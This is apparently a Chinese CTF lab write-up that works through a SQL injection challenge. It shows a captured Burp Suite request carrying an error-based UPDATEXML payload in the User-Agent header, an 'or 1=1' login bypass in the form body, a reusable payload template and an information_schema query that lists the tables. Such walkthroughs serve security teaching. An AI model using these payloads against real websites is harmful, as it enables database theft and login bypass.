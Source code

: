 ![updatexml-error-based-mock.png](/assets/img/post/2020/12/12/updatexml-error-based-mock.png)


#### 利用

打开 `burpsuite` 抓包利用, 为了方便查看， 此处显示代码 `highlight` 为 `bash`, 并在 利用处使用 **注释及缩进** 高亮处理

+ ua: 错误报错出数据
+ form: 越过账户登录

```bash
POST /Pass-07/index.php HTTP/1.1
Host: injectx1.lab.aqlab.cn:81
Content-Length: 36
Cache-Control: max-age=0
Origin: http://injectx1.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
    # User-Agent: mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://injectx1.lab.aqlab.cn:81/Pass-07/index.php?action=show_code
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close
    # username=\&password= or 1=1 ;  -- gg
```

![ua-inject-success.png](/assets/img/post/2020/12/12/ua-inject-success.png)

1. UPDATEXML() 仅支持常量。 `Only constant XPATH queries are supported`, 因此简单的时间盲注就不可用了。  
    `UPDATEXML(1,CONCAT(0x7e,   (select sleep(10))     ,0x7e),1))`
2. 由于 **布尔盲注** 返回结果是 `1/0` ， `XPATH syntax error: '~1~'` 因此可以使用。
    `UPDATEXML(1,CONCAT(0x7e,   (select 1=1)     ,0x7e),1))`


## 0x03 找 FLAG

探测完了可利用点， 又是明文报错信息。 FLAG 就好找了。

以下省略完成 BURPSUITE 文件， 仅完善可以利用语句替代 ${SQL} 位置。

```bash
User-Agent: mozilla' , UPDATEXML(1,CONCAT(0x7e, (    ${SQL}     ) ,0x7e),1))  -- gg
```


### 0x03.1 **探测表**

```sql
-- 查看当前库所有表
select group_concat(table_name) from information_schema.tables where table_schema=database() 

-- result: flag_head,ip,refer,uagent,user
```

